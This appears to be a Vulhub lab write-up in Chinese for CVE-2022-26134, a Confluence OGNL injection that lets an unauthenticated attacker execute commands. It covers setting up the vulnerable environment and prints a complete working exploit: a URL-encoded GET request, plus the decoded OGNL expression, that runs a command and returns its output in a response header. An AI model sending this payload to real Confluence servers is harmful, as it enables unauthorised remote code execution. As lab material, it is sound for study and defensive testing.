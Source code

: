 # Confluence OGNL表达式注入命令执行漏洞（CVE-2022-26134）

Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在野利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令。

参考链接：

- <https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html>
- <https://attackerkb.com/topics/BH1D56ZEhs/cve-2022-26134/rapid7-analysis>

## 漏洞环境

执行如下命令启动一个Confluence Server 7.13.6：
```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![](1.png)

## 漏洞复现

该漏洞利用方法十分简单，直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](2.png)

其中使用到的OGNL表达式为`${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}`。
